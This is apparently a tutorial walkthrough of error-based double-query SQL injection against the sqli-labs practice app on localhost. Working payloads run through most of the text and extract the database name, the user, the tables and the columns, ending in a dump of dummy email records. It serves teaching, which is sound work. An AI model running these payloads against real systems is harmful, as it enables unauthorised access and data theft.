

We start by testing the ID parameter in with a numeric value, thereby we add **?id=1** Now here we run into an error "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '**'1” LIMIT 0,1'** at line 1’ thereby we make a few changes in the id parameter " ?id=-’.

**PAYLOAD**:”localhost/sqli/Less-6/?id=1' --+”

We are greeted with a page that says **“You are in……….”**, but no matter how you change or variate the payload or the query the page remains the same.

We run through the following queries expecting changes:

1.“localhost/sqli/Less-6/?id=1' union all select 1,2,3” 2.“localhost/sqli/Less-6/?id=1' order by 3”

The page remains unchanged.

Now we proceed by applying a double query type injection in which we will be using an “AND operator to inject our payload through the URL.

**PAYLOAD:**”localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select database()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

Here we are basically using the second query as the base query and the first query as an injection payload.

In the second part of the query or the part after **AND “(select database())”** this is considered as the core part of the query.

Here the letter “**b”** at the end is the derived table alias in the payload.

We finally get the error message on the page, which shows us the current database in use. Which in this case is **“security”**

Using the above method we will also be able to find the current user and the version by changing the payload.

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select current\_user()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

Now we will proceed by finding the name of the tables tahat are present in the database “security”, similar to the las lesson we have the same tables in the current lesson.

By doing a small modification in the payload we will be able to find out the tables and their respective table names:

Hereby just changing the limit or iterating over the limit function of the payload, we will be able to find the different tables that are present in the datable namely:

1.emails

**PAYLOAD:**localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 0,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

1.referers

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 1,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

3.uagents

**PAYLOAD:**“localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 2,1),**0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

4.users

**PAYLOAD:**localhost/sqli/Less-6/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 3,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

Now using the table “emails” lets dump the column name and the data from the table.

we can also dump the columns in a similar manner by using the following payload, previously we also found out that we have only 2 columns in our table(emails).

**PAYLOAD:** “localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select column\_name from information\_schema.columns where table\_name=”emails”limit 0,1),0x3a,0x3a, round(rand()\*2,1))a from information\_schema.tables group by a)b) –+”

Here we run this payload we get our first column which is “id” and if we change the limit and the name of the table in the quotes we will be able to find the various columns that are present in the table.

|**ID**|**EMAIL\_ID**|
| - | - |
|1|Dumb@dhakkan.com|
|2|Angel@iloveu.com|
|3|Dummy@dhakkan.com|
|4|secure@dhakkan.com|

|5|stupid@dhakkan.com|
| - | - |
|6|superman@dhakkan.com|
|7|batman@dhakkan.com|
|8|admin@dhakkan.com|

